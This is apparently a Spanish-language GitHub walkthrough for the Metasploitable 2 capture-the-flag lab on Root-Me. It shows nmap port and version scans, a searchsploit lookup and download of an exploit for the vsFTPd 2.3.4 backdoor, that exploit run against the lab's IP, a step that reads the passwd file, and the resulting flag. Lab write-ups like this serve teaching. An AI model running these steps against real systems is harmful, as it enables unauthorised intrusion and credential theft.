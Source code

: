 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=500&height=70&lines=Metasploitable_2"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/metasploitable-2,29/

Sourceforge: https://sourceforge.net/projects/metasploitable/files/Metasploitable2/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Metasploitable-2-13?lang=en

<h1 align="center"></h1>

</br>

- *Paso 1:* Escanear todos los puertos que están abiertos con Nmap. 
```
nmap -p- --open -sC -n -Pn -vvv ctf04.root-me.org
```
![1](https://user-images.githubusercontent.com/75953873/172515652-41a49316-c195-462f-a88b-bfba74051bf2.png)

Puertos abiertos: [21,22,23,25,53,80,110,139,445,3306,5900]

- *Paso 2:* Detección de servicios y su respectiva versión. 
```
nmap -p 21,22,23,25,53,80,110,139,445,3306,5900 -sV ctf04.root-me.org
```
![2](https://user-images.githubusercontent.com/75953873/172518304-45323ab6-0e48-425d-9bf4-5e3689b86200.png)

Objetivo: Puerto 21 -> Servicio FTP -> Versión -> vsFTPd 2.3.4

- *Paso 3:* Identificación de exploit y descarga. 
```
searchsploit vsFTPd 2.3.4
```
![3](https://user-images.githubusercontent.com/75953873/172518879-12b95d54-5dac-4f0d-918e-96860c1c5eed.png)

`Dato:` cada exploit está enumerado y es irrepetible.

Exploit: 49757

Descargar exploit:
```
searchsploit -m 49757
```
![4](https://user-images.githubusercontent.com/75953873/172519207-132d9579-e008-4980-941a-44925d69d383.png)

- *Paso 5:* Obtener acceso. 

Obtener IP de la máquina a través de un ping:
```
ping -c 2 ctf04.root-me.org
```
![5](https://user-images.githubusercontent.com/75953873/172519517-52e00c2d-277e-43d7-838e-796e99e2ed34.png)

**IP:** 212.129.29.186

Ejecución del exploit:
```
python3 49757.py 212.129.29.186
```
![6](https://user-images.githubusercontent.com/75953873/172519805-0a9e2b66-d85c-4b2a-a5d8-8801fea887c1.png)

Localizar fichero `passwd` y validar flag:
```
cat passwd
```
![7](https://user-images.githubusercontent.com/75953873/172520170-d1cc17c5-5124-4c2f-ba76-10835fc58344.png)

**Key:** bb43e7cf2385d2c38fd5a232b435e59d

![8](https://user-images.githubusercontent.com/75953873/172520842-29a1669f-f89d-44b4-a818-297d7b1b472f.png)
